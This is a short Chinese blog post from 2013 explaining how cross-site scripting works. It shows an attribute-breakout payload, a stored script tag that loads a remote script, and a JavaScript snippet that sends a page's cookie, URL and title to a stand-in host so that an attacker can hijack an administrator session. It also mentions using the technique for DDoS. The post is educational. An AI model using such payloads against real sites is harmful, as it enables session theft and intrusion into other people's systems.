 Author: levin
Slug: cross-site-scripting
Date: 2013-08-29 22:10
Title: 跨站脚本攻击实现原理
Category: Web
Tags: javascript

跨站脚本攻击`Cross-site scripting`是个比较老的漏洞攻击方法，今天对其了解了下。

它是如何实现的呢，假设有个表单需要提交，其中某个字段形如<!-- more -->

        <input type="text" name="t" value="" />

攻击者在此输入框填写了

        " /><script>alert('xss')</script><input value="

这样的内容提交到服务器，而服务器没有进行过滤处理，将其存入数据库，下次编辑此表单时服务器对此内容输出，raw的html看起来像这样：

        <input type="text" name="t" value="" /><script>alert('xss')</script><input value="" />

然后页面上就会多出1个输入框，并且会弹出确认框。这就是最简单的跨站脚本植入。

假设有个提交评论的输入框，在其上提交评论：

        <script src="http://example.com/xss.js"></script>

提交表单，如果这段代码没有被过滤，当后台管理员查看评论时，照常运行的话，此段代码将开始工作，首先会请求`http://example.com/xss.js`，如果此时`http://example.com/xss.js`返回的内容为：

    (function(){
        (new Image()).src = 'http://exmaple.com/xss_recv?location=' + encodeURIComponent(window.location.href) + '&cookie=' + document.cookie + '&title=' + encodeURIComponent(document.title)
    })()

那么浏览器将请求`http://exmaple.com/xss_recv`这个链接并附带上被脚本植入页面的一些信息，攻击者获取到这些信息，会尝试登陆那个管理后台，伪造cookie进行访问。

当然，除了窃取信息，也可以在访问量大的页面植入脚本，让脚本指向某个小型网站，可以达到DDoS的效果，使小网站宕机。
